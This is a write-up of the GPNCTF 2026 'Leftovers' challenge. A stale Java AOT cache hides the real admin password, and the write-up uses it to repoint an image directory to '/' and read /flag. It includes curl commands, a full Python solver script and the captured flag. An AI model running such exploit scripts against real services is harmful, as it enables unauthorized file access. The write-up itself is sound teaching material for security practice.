

# Leftovers - GPNCTF 2026 Write-up

## Challenge Description

> Looking through my Fridge (why does it contain Java programs again?), I found some stale food from yesterday. Surely there's no chance for food poisoning, is there?
>
> This dish must be cleared on our infrastructure.  
> Remote:
> `https://blackened-wagyu-wrapped-in-compressed-rice-u1wd.gpn24.ctf.kitctf.de`

---

## 1. TL;DR

This challenge gives us a Java web service, a custom JDK, and a `cache.aot` file. The obvious approach is to decompile `leftovers.jar`, find the admin password for `/set-image-dir`, and abuse that endpoint to point the image directory somewhere useful.

The trap is that the jar is **not** the real source of truth at runtime. The server is launched with:

```bash
/my-jdk/bin/java -XX:AOTCache=cache.aot -jar leftovers.jar
```

The jar-visible password check says the password is `supersecret`, but the runtime behavior says otherwise because the stale AOT cache overrides the logic that actually executes. Reversing the AOT version of the password check gives the real accepted password:

```text
algomaster99
```

Once we have that, the rest is straightforward:

1. `POST /set-image-dir` with `newPath` set to `/`
2. Create a product named `flag`
3. Request `/images/flag`
4. The server resolves that to `/flag` and returns the flag

Final flag:

```text
GPNCTF{lEfT_OR_R1GhT_coD3_c4CH3_VA1iDatioN_saYs_GOOd_N16H7}
```

---

## 2. What Data/File We Have and What Is Special

The provided archive is small, but every file matters.

| File / Component | What it is | Why it matters |
|---|---|---|
| `leftovers.jar` | The Java web application | Gives us the route structure and the visible business logic |
| `cache.aot` | AOT cache file | Contains stale compiled code that changes the runtime behavior |
| `my-jdk/` | Custom OpenJDK build | Needed to reproduce the real execution environment |
| `Dockerfile` | Deployment description | Shows the service really runs with `-XX:AOTCache=cache.aot` |
| `README.md` | Local run instructions | Confirms that using the AOT cache is required |
| Remote instance | The actual target | Lets us verify which code path is really active |

The special part is the **mismatch between static analysis and runtime truth**. If we only decompile the jar, we get a believable but wrong answer. The challenge title, **Leftovers**, and the description about stale food are strong hints that some old cached state is still being used.

Two tiny files tell the whole story immediately:

```dockerfile
ENTRYPOINT /my-jdk/bin/java -XX:AOTCache=cache.aot -jar leftovers.jar
```

and

```text
Run ./my-jdk/bin/java -XX:AOTCache=cache.aot -jar leftovers.jar
```

That means `cache.aot` is not an extra artifact. It is part of the intended reversing target.

---

## Concept Map



---

## 3. Problem Analysis (in details)

### 3.1 First pass: what does the application do?

Decompiling the jar gives a normal-looking Java web service. The key routes are:

| Route | Method | Purpose |
|---|---:|---|
| `/` | GET | Index page |
| `/products/{name}` | PUT | Add or update a product |
| `/images/{name}` | GET | Serve a product image |
| `/set-image-dir` | POST | Change the base directory used by the image store |

The natural attack idea appears immediately. If `/set-image-dir` lets us change the directory used for image lookup, then setting it to `/` may let us request files directly from the filesystem. The only thing stopping us is the password gate.

### 3.2 The misleading answer from the jar

In the decompiled jar, the password check for `/set-image-dir` looks like a plain comparison against:

```text
supersecret
```

So the first instinct is to try:

```bash
curl -sk -X POST "$BASE/set-image-dir" \
  -H 'Content-Type: application/json' \
  --data '{"password":"supersecret","newPath":"/"}'
```

That looks perfectly reasonable from the jar alone, but it does not solve the remote service. This is the critical observation. At that point, the challenge stops being a simple web route reversal and becomes a runtime-consistency problem.

### 3.3 Why the jar lies

The deployment command tells us exactly why the visible logic is not trustworthy:

```bash
/my-jdk/bin/java -XX:AOTCache=cache.aot -jar leftovers.jar
```

The JVM is explicitly told to use `cache.aot`. That means the running service may execute a stale compiled version of a method rather than the behavior we expect from the current jar bytecode.

This is the core trick of the challenge:

| Source of truth | Result |
|---|---|
| Decompiled `leftovers.jar` | Password appears to be `supersecret` |
| Real runtime with `cache.aot` | `supersecret` does not work |
| Reversed AOT-compiled validator | Real password is `algomaster99` |

The title **Leftovers** now makes sense. The service is literally using leftover compiled code from an older state.

### 3.4 Recovering the real password from the stale validator

The stale AOT validator does not compare the input directly. Instead, it transforms the submitted password and compares the transformed result to embedded constants.

A convenient way to describe the runtime check is:

```text
input password
  -> transform characters
  -> reorder / reverse
  -> XOR with fixed constants
  -> compare against stored target bytes
```

Because these are reversible operations, the logic can be inverted. Working backward from the constants in the AOT path yields the actual accepted input:

```text
algomaster99
```

That explains the mismatch completely. The jar shows the current source-level password, but the service is still executing an older compiled variant from the cache.

### 3.5 Turning admin access into file read

Once `/set-image-dir` is under our control, we only need to understand how `/images/{name}` resolves a file.

The application sanitizes product names so characters like `/` and `.` cannot be used directly for traversal. That means we cannot simply create a product named `../../flag`. However, if we can set the base image directory itself to `/`, then a sanitized product name of `flag` is enough.

Conceptually, the path resolution becomes:

```text
base image directory: /
product name: flag
resolved file path: /flag
```

There is one more useful implementation detail. When creating or updating a product, the server stores the product even when `imageUrl` is `null`. So we can register a product named `flag` without making the service download or overwrite anything.

That gives us the full exploit chain:

```text
recover real AOT password
  -> set image directory to /
  -> register product named flag
  -> request /images/flag
  -> server reads /flag
```

---

## 4. Exploitation Walkthrough / Flag Recovery

Set the target URL:

```bash
BASE="https://blackened-wagyu-wrapped-in-compressed-rice-u1wd.gpn24.ctf.kitctf.de"
```

### Step 1. Change the image directory to `/`

```bash
curl -sk -X POST "$BASE/set-image-dir" \
  -H 'Content-Type: application/json' \
  --data '{"password":"algomaster99","newPath":"/"}'
```

Expected result: `200 OK`

### Step 2. Register a product named `flag`

```bash
curl -sk -X PUT "$BASE/products/flag" \
  -H 'Content-Type: application/json' \
  --data '{"product":{"name":"flag","quantity":1,"bestBefore":"2026-01-01T00:00:00","notAfter":"2027-01-01T00:00:00"},"imageUrl":null}'
```

Expected result: `200 OK`

### Step 3. Read the image for that product

```bash
curl -sk "$BASE/images/flag"
```

The server now resolves the image path as `/flag` and returns:

```text
GPNCTF{lEfT_OR_R1GhT_coD3_c4CH3_VA1iDatioN_saYs_GOOd_N16H7}
```

### Full solver

```python
#!/usr/bin/env python3
import argparse
import re
import requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

PASSWORD = "algomaster99"
FLAG_RE = re.compile(rb"GPNCTF\{[^\r\n}]*\}")

PRODUCT_TEMPLATE = {
    "quantity": 1,
    "bestBefore": "2026-01-01T00:00:00",
    "notAfter": "2027-01-01T00:00:00",
}


def req(session, method, url, **kwargs):
    r = session.request(method, url, timeout=10, verify=False, **kwargs)
    print(f"[{method}] {url} -> {r.status_code} {r.reason}")
    return r


def set_image_dir(session, base, directory):
    body = {"password": PASSWORD, "newPath": directory}
    r = req(session, "POST", f"{base}/set-image-dir", json=body)
    if r.status_code != 200:
        print(r.text[:500])
    return r.status_code == 200


def add_product(session, base, name):
    product = dict(PRODUCT_TEMPLATE)
    product["name"] = name
    body = {"product": product, "imageUrl": None}
    return req(session, "PUT", f"{base}/products/{name}", json=body)


def get_image(session, base, name):
    r = req(session, "GET", f"{base}/images/{name}")
    print(r.content[:300])
    m = FLAG_RE.search(r.content)
    if m:
        flag = m.group(0).decode()
        print(f"\n[+] FLAG: {flag}")
        return flag
    return None


def main():
    ap = argparse.ArgumentParser(description="Exploit GPNCTF Leftovers")
    ap.add_argument("base", help="challenge base URL, e.g. https://host")
    args = ap.parse_args()

    base = args.base.rstrip("/")
    s = requests.Session()

    dirs = ["/", "/app", "/home/ctf", "/challenge"]
    names = ["flag", "FLAG"]

    for d in dirs:
        print(f"\n[*] setting image directory to {d!r}")
        if not set_image_dir(s, base, d):
            continue

        for name in names:
            print(f"[*] trying {d.rstrip('/')}/{name}")
            add_product(s, base, name)
            flag = get_image(s, base, name)
            if flag:
                return 0

    print("\n[-] No flag found.")
    return 1


if __name__ == "__main__":
    raise SystemExit(main())
```

And the successful run looked like:

```text
[*] setting image directory to '/'
[POST] https://blackened-wagyu-wrapped-in-compressed-rice-u1wd.gpn24.ctf.kitctf.de/set-image-dir -> 200 OK
[*] trying /flag
[PUT] https://blackened-wagyu-wrapped-in-compressed-rice-u1wd.gpn24.ctf.kitctf.de/products/flag -> 200 OK
[GET] https://blackened-wagyu-wrapped-in-compressed-rice-u1wd.gpn24.ctf.kitctf.de/images/flag -> 200 OK
b'GPNCTF{lEfT_OR_R1GhT_coD3_c4CH3_VA1iDatioN_saYs_GOOd_N16H7}\n'

[+] FLAG: GPNCTF{lEfT_OR_R1GhT_coD3_c4CH3_VA1iDatioN_saYs_GOOd_N16H7}
```

---

## 5. What We Learned

| Lesson | Why it matters |
|---|---|
| Decompiled code is not always runtime truth | The jar said `supersecret`, but the service accepted `algomaster99` |
| Runtime flags matter in reversing | `-XX:AOTCache=cache.aot` completely changed the behavior we had to reason about |
| Challenge naming often hints at the mechanic | “Leftovers” and “stale food” pointed directly at stale cached code |
| When the obvious password fails, re-evaluate the execution model | The mistake was assuming the jar and runtime were identical |
| Path sanitization is not enough if the base directory is attacker-controlled | Once the base path became `/`, the sanitized name `flag` was enough |
| `null` can be strategically useful | `imageUrl: null` let us register the product without overwriting the target file |

The whole exploit chain in one line:

```text
stale AOT cache -> real password algomaster99 -> set image dir to / -> create product flag -> GET /images/flag -> read /flag
```